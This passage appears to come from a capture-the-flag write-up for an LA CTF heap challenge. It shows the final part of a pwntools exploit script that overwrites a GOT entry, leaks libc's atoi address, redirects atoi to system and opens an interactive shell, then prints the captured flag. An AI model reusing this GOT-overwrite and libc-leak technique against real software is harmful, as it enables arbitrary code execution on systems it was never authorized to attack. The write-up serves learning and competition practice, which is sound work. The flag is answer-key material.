 ```python
    p64(0x71),
    b'c' * 8,
    got_atoi
])
edit(payload)

reset()
explore(2)
explore(1)
test_level()
p.recvuntil(b'Level data: ')

libc_leak = u64(p.recv()[0:6].ljust(8, b'\x00'))

libc.address = libc_leak - libc.symbols['atoi']
print(hex(libc.address))
final = flat([
    libc.symbols['system']
])
edit(final)
p.interactive()

# lactf{ro9u3_LIk3_No7_R34LlY_RO9U3_H34P_LIK3_nO7_r34llY_H34P}
```
Had a lot of fun playing this CTF, looking forward to next year!